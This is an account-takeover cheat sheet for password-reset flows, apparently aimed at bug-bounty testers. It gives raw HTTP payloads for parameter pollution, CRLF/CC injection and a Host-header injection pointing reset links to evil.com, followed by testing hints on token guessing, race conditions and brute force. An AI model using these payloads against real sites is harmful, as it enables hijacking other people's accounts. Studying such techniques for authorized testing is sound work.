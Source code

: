 ```yaml
---

### **Password Reset & Account Takeover Techniques**

#### **1. Parameter Pollution**
POST /reset HTTP/1.1
Host: target.com
...
```

email=victim@mail.com&email=hacker@mail.com

#### **2. Host Header Injection**
POST /reset HTTP/1.1
Host: target.com
X-Forwarded-Host: evil.com
...
email=victim@mail.com

#### **3. Using Separators in Parameter Values**
POST /reset HTTP/1.1
Host: target.com
...
email=victim@mail.com,hacker@mail.com

email=victim@mail.com%00hacker@mail.com

email=victim@mail.com|hacker@mail.com

email=victim@mail.com%20hacker@mail.com

#### **4. No Domain in Parameter Value**
POST /reset HTTP/1.1
Host: target.com
...
email=victim

#### **5. No TLD in Parameter Value**
POST /reset HTTP/1.1
Host: target.com
...
email=victim@mail

#### **6. Using Carbon Copy (CC)**
POST /reset HTTP/1.1
Host: target.com
...
email=victim@mail.com%0a%0dcc:hacker@mail.com

#### **7. JSON Data Manipulation**
POST /newaccount HTTP/1.1
Host: target.com
...
{"email":"victim@mail.com","hacker@mail.com","token":"xxxxxxxxxx"}

#### **8. Token Generation Analysis**
- Generated based on TimeStamp
- Generated based on the ID of the user
- Generated based on the email of the user
- Generated based on the name of the user

#### **9. Cross-Site Scripting (XSS) in the Form**
- Try injecting XSS payloads in the password reset form.

#### **10. Race Condition**
- Send victim reset password and attacker reset password requests simultaneously.

#### **11. Password Reset Token Leak Via Referrer**
- Check if the reset token is leaked in the HTTP Referrer header.

#### **12. Guessable UUID**
- Test if the reset token is a guessable UUID.

#### **13. Brute Force Password Reset Token**
- Attempt to brute force the reset token if it is short or predictable.

#### **14. Try Using Your Token**
- Use your own reset token on another account to see if it works.

#### **15. Reset Password with Email 1, Change Email to Another**
- Reset password with email 1, then change email to another. Check if the link from email 1 still works.

#### **16. References**
- Twitter Post: https://x.com/Securrtech/status/1776580537429422217
- Bugcrowd Blog: https://www.bugcrowd.com/blog/breaking-the-chain-exploiting-oauth-and-forgot-password-for-account-takeover/

---

-- https://xmind.ai/share/UYJM9L9t
-- https://xmind.ai/share/UYJM9L9t?xid=yDAky4KX
